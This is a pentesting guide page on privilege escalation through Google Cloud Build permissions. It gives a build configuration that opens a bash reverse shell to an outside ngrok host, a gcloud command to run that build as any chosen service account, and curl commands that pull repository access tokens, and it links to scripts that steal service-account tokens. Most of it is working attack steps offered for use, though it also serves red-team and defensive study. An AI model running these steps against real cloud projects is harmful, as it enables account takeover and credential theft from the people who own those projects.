 # GCP - Cloudbuild Privesc

## cloudbuild

For more information about Cloud Build check:

[[../gcp-services/gcp-cloud-build-enum.md]]

### `cloudbuild.builds.create`, `iam.serviceAccounts.actAs`

With this permission you can **submit a cloud build**. The cloudbuild machine will have in it’s filesystem by **default a token of the cloudbuild Service Account**: `<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`. However, you can **indicate any service account inside the project** in the cloudbuild configuration.\
Therefore, you can just make the machine exfiltrate to your server the token or **get a reverse shell inside of it and get yourself the token** (the file containing the token might change).

#### Direct exploitation via gcloud CLI

1- Create `cloudbuild.yaml` and modify with your listener data
```yaml
steps:
  - name: bash
    script: |
      #!/usr/bin/env bash
      bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14965 0>&1
options:
  logging: CLOUD_LOGGING_ONLY
```
2- Upload a simple build with no source, the yaml file and specify the SA to use on the build:
```bash
gcloud builds submit --no-source --config="./cloudbuild.yaml" --service-account="projects/<PROJECT>/serviceAccounts/<SERVICE_ACCOUNT_ID>@<PROJECT_ID>.iam.gserviceaccount.com
```

#### Using python gcloud library
You can find the original exploit script [**here on GitHub**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py) (but the location it's taking the token from didn't work for me). Therefore, check a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.sh) and a python script to get a reverse shell inside the cloudbuild machine and [**steal it here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.py) (in the code you can find how to specify other service accounts)**.**

For a more in-depth explanation, visit [https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/)

### `cloudbuild.repositories.accessReadToken`

With this permission the user can get the **read access token** used to access the repository:

```bash
curl -X POST \
     -H "Authorization: Bearer $(gcloud auth print-access-token)" \
     -H "Content-Type: application/json" \
     -d '{}' \
     "https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```

### `cloudbuild.repositories.accessReadWriteToken`

With this permission the user can get the **read and write access token** used to access the repository:

```bash
curl -X POST \
     -H "Authorization: Bearer $(gcloud auth print-access-token)" \
     -H "Content-Type: application/json" \
     -d '{}' \
     "https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```

### `cloudbuild.connections.fetchLinkableRepositories`

With this permission you can **get the repos the connection has access to:**

```bash
curl -X GET \
     -H "Authorization: Bearer $(gcloud auth print-access-token)" \
     "https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```

